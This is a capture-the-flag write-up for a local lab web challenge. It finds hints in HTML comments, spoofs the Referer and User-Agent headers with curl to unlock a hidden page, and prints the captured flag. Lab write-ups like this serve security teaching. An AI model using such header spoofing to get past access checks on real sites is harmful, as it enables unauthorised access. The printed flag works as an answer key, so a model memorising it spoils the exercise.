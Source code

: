 # spoofing headers

while looking at the page with the background music,

i noticed that the html source has lots of comments,

there's an entire (humorous) article about epitech and some other stuff

one of the comments caught my attention:

```html
<!--
You must cumming from : "https://www.nsa.gov/" to go to the next step
-->
```

this must be an allusion to the http `referer` header,

normally the browser sets this field to the previous address visited, but of course it can be spoofed

to try it, all we need to do is append `-H "Referer: https://www.nsa.gov/"` to our curl command


##### let's compare the two pages
in terminal do
```sh
e1z2r10p4% curl 'http://192.168.99.100/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -s -o before.html
e1z2r10p4% curl 'http://192.168.99.100/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -H "Referer: https://www.nsa.gov/" -s -o after.html 
e1z2r10p4% diff before.html after.html 
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

##### notice `FIRST STEP DONE`
nice, we must be on right path

...

scrolling further through the html source code we notice another comment

```html
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

##### okay, so this is a clear reference to the `User-Agent` http request header
let's spoof it and see what happens, we just need to append `-H "User-Agent: ft_bornToSec"` to our curl command

```sh
e1z2r10p4% curl 'http://192.168.99.100/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" -s -o ftbts.html
e1z2r10p4% diff before.html ftbts.html 
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
e1z2r10p4% 
```

##### we have the flag `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`
nice

